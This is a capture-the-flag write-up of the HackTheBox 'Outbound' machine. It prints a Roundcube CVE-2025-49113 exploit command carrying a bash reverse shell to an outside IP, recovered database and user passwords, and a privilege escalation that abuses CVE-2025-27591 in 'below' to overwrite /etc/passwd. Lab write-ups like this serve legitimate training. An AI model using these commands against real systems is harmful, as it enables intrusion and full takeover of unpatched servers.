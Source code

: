 ```yaml
---
title: "Outbound HacktheBox Writeup"
date: "Jul 29, 2025"
description: "Detailed writeup for Outbound HacktheBox"
image: "/images/outbound.png"
---
```


 🚀 Introduction

In this challenge, we first Exploring a webmail service and exploiting a known vulnerability that allowed us to gain initial access. After obtaining a user account, we looked deeper into the server and found another security issue that let us escalate our privileges to become the root user, giving full control of the machine. This walkthrough details each step clearly, making it easy to follow even for beginners


Returning to HackTheBox after a long break, I discovered an intriguing new machine—Outbound. Eager to dust off my hacking skills, I quickly jumped into action by setting up the VPN connection:

sudo openvpn outbound.ovpn

🔍 Reconnaissance

Next, I performed an Nmap scan:

```bash
nmap -sC -sV -oN scan.txt 10.10.11.77
```
I identified two open ports:
![namp](/outbound.png)


22 (SSH)

80 (HTTP)

🌐 Web Enumeration

Visiting http://10.10.11.77 redirected me to mail.outbound.htb, prompting me to update my /etc/hosts file:

```bash
10.10.11.77 mail.outbound.htb
```
After refreshing the page, I found a Roundcube webmail login with provided credentials directly on the page.
![machine](/htb.png)

Logging in, I immediately noticed the Roundcube version had a known vulnerability (CVE-2025-49113).

Quick reminder: Always check software versions for known CVEs!

🛠️ Exploitation

I set up a listener on my attacker machine:
```bash
nc -nlvp 4444
```
Then, I cloned and executed the exploit:
```bash
git clone https://github.com/fearsoff-org/CVE-2025-49113.git
cd CVE-2025-49113
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/10.10.16.32/4444 0>&1'"
```
The exploit executed successfully, giving me a shell as www-data.

![www-data](/htb2.png)

📂 Exploring Files

Navigating the server, I discovered a crucial config directory:

/var/www/html/roundcube/public_html/roundcube/config

Inside config.inc.php, 

![Image](/config.png)

I found database credentials:

```bash
DB User: roundcube
DB Pass: RCDBPass2025
DB Name: roundcube
```
💾 Database Exploration

With the credentials, I accessed the database:
```bash
mysql -u roundcube -pRCDBPass2025 roundcube
SHOW TABLES;
SELECT * FROM session;
```
The session data was Base64-encoded. Decoding using CyberChef.io,
![Base64](/sessions.png)

I initially found Tyler’s credentials (already known), then Jacob’s encrypted session data.

Jacob's password was encrypted using Triple DES (DES-EDE3-CBC). Leveraging the encryption key (rcmail-!24ByteDESkey*Str) from config.inc.php, I decrypted Jacob’s password successfully.
![decode](/decode.png)
🔑 SSH Access

With Jacob’s decrypted password, 

![jacobpass](/jacobpass.png)

I accessed via SSH:
```bash
ssh jacob@10.10.11.77
```
Jacob's SSH password:

gY4Wr3a1evp4

Successfully obtained the user flag.

![userflag](/userflag.png)

🛡️ Privilege Escalation

Checking Jacob’s privileges:
```bash
sudo -l
```

Output:
```bash
(ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
```
Jacob could run /usr/bin/below as root, excluding certain arguments.

Searching vulnerabilities related to /usr/bin/below, I discovered CVE-2025-27591, allowing arbitrary file manipulation through logs. I executed the following steps:

Exploit Steps:

Navigate to log directory:
```bash
cd /var/log/below
```
Create a malicious user entry:
```bash
echo 'root2:aacFCuAIHhrCM:0:0:,,,:/root:/bin/bash' > root2
```
Remove original log file:
```bash
rm error_root.log
```
Create a symbolic link to /etc/passwd:
```bash
ln -s /etc/passwd /var/log/below/error_root.log
```
Trigger vulnerability:
```bash
sudo /usr/bin/below
```
Overwrite /etc/passwd:
```bash
cp root2 error_root.log
```
Switch to root-level user:
```bash
su root2
```
![rootq](/root.png)

Root access achieved. 🎉 Successfully obtained the root flag!
[![Outbound Machine Achievement](/machine.png)](https://labs.hackthebox.com/achievement/machine/205810/672)